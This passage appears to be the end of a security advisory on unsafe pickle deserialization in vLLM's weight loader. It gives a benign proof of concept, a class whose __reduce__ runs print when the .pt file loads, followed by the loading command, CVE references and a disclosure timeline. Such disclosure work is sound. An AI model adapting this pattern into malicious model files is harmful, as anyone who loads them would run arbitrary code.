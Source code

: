 2. **Create Test Model**:
   ```python
   # test_exploit.py
   import torch

   class TestPayload:
       def __reduce__(self):
           return (print, ('VULNERABILITY CONFIRMED',))

   torch.save({'test': TestPayload()}, 'test_model.pt')
   ```

3. **Load with vLLM**:
   ```bash
   python -c "from vllm.model_executor.model_loader.weight_utils import pt_weights_iterator; list(pt_weights_iterator(['test_model.pt']))"
   ```

4. **Expected Output**:
   ```
   VULNERABILITY CONFIRMED  # ← Arbitrary code executed!
   ```

---

## References

### **Similar Vulnerabilities**

- **CVE-2024-5480**: PyTorch Model Deserialization RCE
- **CVE-2025-1550**: Keras Model Deserialization RCE
- **CVE-2022-45907**: Generic Pickle Deserialization in ML frameworks

### **Security Advisories**

- PyTorch Security: https://github.com/pytorch/pytorch/security/advisories
- OWASP ML Security: https://owasp.org/www-project-machine-learning-security-top-10/

### **Resources**

- vLLM GitHub: https://github.com/vllm-project/vllm
- SafeTensors: https://github.com/huggingface/safetensors
- Torch.load Security: https://pytorch.org/docs/stable/generated/torch.load.html

---

## Disclosure Timeline

- **October 3, 2025**: Vulnerability discovered via automated scanning
- **October 3, 2025**: Technical analysis and PoC development completed
- **[PENDING]**: Responsible disclosure to vLLM maintainers
- **[PENDING]**: CVE assignment request
- **[PENDING]**: Patch development and testing
- **[PENDING]**: Public disclosure (90 days after vendor notification)

---